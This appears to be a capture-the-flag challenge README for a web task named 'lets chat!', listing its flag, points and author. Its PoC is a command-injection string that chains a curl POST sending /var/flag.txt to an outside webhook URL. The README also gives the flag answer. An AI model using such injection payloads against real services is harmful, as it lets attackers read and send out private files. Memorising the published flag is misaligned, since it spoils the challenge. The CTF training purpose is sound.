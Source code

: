 # Challenge Name:
lets chat!

## Description:
lets chat using this web!

## Category:
Web

## File:
./dist.zip

## Flag:
`STORM{command_injection_?_eefdaace08}`

## Points:
500

## Author:
k.eii

## PoC
```
ayam1; curl -X POST -d \"$(cat /var/flag.txt)\" https://webhook.site/823dde1f-c5b5-42f5-b4b6-83dab47080bc #"
```